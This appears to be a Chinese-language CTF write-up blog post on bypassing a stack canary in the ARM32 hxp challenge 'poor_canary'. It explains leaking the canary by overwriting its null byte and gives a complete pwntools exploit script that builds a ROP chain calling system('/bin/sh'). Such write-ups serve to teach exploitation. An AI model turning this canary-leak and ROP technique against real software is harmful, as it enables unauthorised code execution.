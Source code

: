 ```yaml
---
layout:     post
title:      绕过canary方法
subtitle:    
date:       2018-12-17
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> hxp题目poor_canary

 源代码如图

![1545020682275](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545020682275.png)

arm32架构的题目

ida中分析

​      ![1545020712524](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545020712524.png)

 

当时分析以为v7就是canary溢出的buf，不清楚canary保护会加一段canary4字节校验。及v9。

所以真实的v7=buf+‘\n’+校验  之后就是ebp和返回地址，我们arm的传参方法为：r0-r3 ，pc为我们的函数地址。

我们找到的rop链为：

![1545021078066](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545021078066.png)

 所以我们可以构造如图所示的payload，

​             ![1545021104176](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545021104176.png)

  sys和binsh可以在ida中找到。

所以我们现在只需要寻找我们的canary的值，即v8，我们还需要把最后的\n给覆盖，所以我们可以这么做

 ```python
sh.send("a"*41)
sh.recvuntil("a"*41)
r=sh.recv(3)
 ```



 即先传41个a，这时候我们的canary就可以传过来了。

如图所示，我们把第41的地方‘0’覆盖为a，就可以打印出来canary的值了。	

 ![1545021892212](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545021892212.png)

最后的脚本如图：

 ```python
from pwn import *
import sys
context.arch = "arm"
context.os = "linux"
context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']
context.endian="little"
bina=0x71eb0
sys=0x16d90
r0=0x26b7c
sh=process("./canary")
sh.recvuntil("> ")
sh.send("a"*41)
sh.recvuntil("a"*41)
r=sh.recv()
canary=u32("\x00"+r)
print "canary = ",hex(canary)
buf  = "A"*40
buf += p32(canary)
buf += "B"*12
buf += p32(r0)
buf += p32(bina)
buf += "C"*4
buf += p32(sys)
sh.send(buf)
sh.recvuntil("> ")
sh.send("\n")
sh.interactive()
 ```



 

